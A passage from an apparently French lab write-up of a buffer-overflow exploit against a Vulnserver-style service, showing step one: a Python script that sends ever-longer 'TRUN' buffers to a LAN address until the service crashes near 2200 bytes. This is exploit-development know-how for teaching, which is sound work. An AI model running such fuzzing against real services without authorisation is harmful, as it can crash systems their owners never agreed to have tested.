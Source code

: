 
---

## 2. ⚙️ Étapes de l’exploitation

### Étape 1 : Fuzzing pour Identifier le Point de Crash

Script utilisé pour le fuzzing :

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.1.24", 9999))
        payload = "TRUN /.:/" + buffer
        s.send(payload.encode())
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crashed at %s bytes" % len(buffer))
        sys.exit()
```

📸 **Résultat :** Crash à environ **2200 octets**  

![fuzzing crash 2200 octets](./fuzzing2200.png)
![Résulta CMD](./commandefuzzing.png)

---